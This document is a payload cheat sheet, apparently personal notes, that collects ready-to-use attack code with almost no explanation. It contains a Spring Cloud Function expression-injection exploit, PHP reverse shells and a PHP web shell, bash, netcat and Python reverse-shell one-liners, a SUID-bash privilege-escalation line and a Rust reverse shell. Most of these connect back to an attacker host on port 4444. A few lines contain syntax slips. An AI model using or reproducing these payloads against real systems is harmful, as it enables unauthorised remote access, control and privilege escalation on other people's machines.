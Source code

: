 JAVA Spring Boot cloud exploit and rev-shell:
---
```shell
curl -X POST [http://$TARGET_IP:8080/functionRouter](http://$TARGET_IP:8080/functionRouter) -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/$TARGET_IP/4444 0>&1")' --data-raw 'data' -v
```

PHP Reverse shell LFI:
---
#php #rev-shell #reverse #rev 
```php
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/$ATTACKER_IP/4444 0>&1'");?>
```

```php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/$ATTACKER_IP/4444 0>&1'");?>
```

```php
<?php $sock=fsockopen("$ATTACKER_IP",4444);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);?>
```

```php
<?php system($_GET['cmd']);?>
```

[https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

[https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php)

BASH reverse (rev) shell:
---
Using BASH:
```shell
sh -i >& /dev/tcp/$ATTACKER_IP/4444 0>&1
```

Using NC:
```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $ATTACKER_IP 4444 >/tmp/f
```

Python Rev shell
---
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"
```

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Python Priv Esc
---
```python
pyimport os;os.system("chmod +s /bin/bash");f=function f2(){};
```

RUST Rev Shell
---
#rust #reverse #rev-shell 
```rust
use std::net::TcpStream;
use std::os::unix::io::{AsRawFd, FromRawFd};
use std::process::{Command, Stdio};

fn main() {
    let sock = TcpStream::connect("localhost:4444").unwrap();
    let fd = sock.as_raw_fd();
    Command::new("/bin/bash")
        .arg("-i")
        .stdin(unsafe { Stdio::from_raw_fd(fd) })
        .stdout(unsafe { Stdio::from_raw_fd(fd) })
        .stderr(unsafe { Stdio::from_raw_fd(fd) })
        .spawn()
        .unwrap()
        .wait()
        .unwrap();
}
```